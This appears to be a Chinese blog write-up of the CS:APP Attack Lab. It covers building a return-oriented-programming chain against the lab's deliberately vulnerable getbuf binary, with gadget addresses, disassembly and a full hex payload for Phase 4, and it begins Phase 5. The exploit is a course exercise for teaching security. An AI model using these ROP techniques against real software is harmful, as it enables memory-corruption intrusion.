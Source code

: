 由此可以得出我们的 gadgets：

**gadget1 ： 0x4019a7(addval_219) + 0x4 = 0x4019ab(后面的 0x90 是 nop，可以忽略)**

**gadget2 ： 0x4019a0 + 0x3 = 0x4019a3。**

我们已经知道 touch2 的地址：0x4017ec。我们需要查看 getbuf 分配的栈帧大小。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
```
还是分配了 0x28（40）字节的空间。我们不能预先知道返回的地址是多少是多少，但是可以利用 gadgets 达到在 `%rsp` 中执行。栈帧的结构是不会变化的。
`%rsp` 需要输入以下的内容：
`%rsp + 0x28` 字节的填充物 + gadget1 的地址（控制流程） + `cookie` 的地址（`0x59b997fa`, `popq %rax` 时需要）+ gadget2 的地址 + touch2 的地址(0x4017ec)也就是(注意64位)：
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 fa 97
b9 59 00 00 00 00 a3 19 40 00
00 00 00 00 ec 17 40 00 00 00
00 00
```
运行结果：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-level4-success.png)
- Phase 5：

要求|Hint
-|-
调用`touch3` 函数| 标准答案有 8 个 gadgets。使用的机器码介于 `start_farm` 和 `end_farm`。

注意 Phase5 没有说会把字符串传送到 `%eax`。`cookie` 字符串的起始地址的 ASCII 保存在最后一个 gadget 的后面。我们需要把 cookie 的 ASCII 形式传送到 `%rdi`，也就是需要指令 `movq %rsp(rsp 已经被修改了), %rdi`，也就是机器码：`48 89 e7`。但是并没有。所以这样子是不行的，我参考了别人的思路：
> 1.拿到 `%rsp` 存着的地址
> 2.(然后把这个地址) + (`cookie` 在 stack 偏移量) `pop` 到某个寄存器中
> 3.然后把这个寄存器的值放到 `%rdi` 中
> 4.然后调用 `touch3`
> 5.`cookie` 要放到 stack 最后面
> 6.字符串最后加上 `\0` 也就是 00000000 来标志结束

1）首先取出 `%rsp`，传送到 `%rdi`，和 Phase4 一样，没有直接传送的指令，所以需要借助 `%rax`。
```asm
movq %rsp, %rax : 48 89 e0
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3      
``` 
`0x90` 是 `nop`，这个我们不管。

2）找 `movq %rax, %rdi` 的机器码：`48 89 c7`
```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq
```
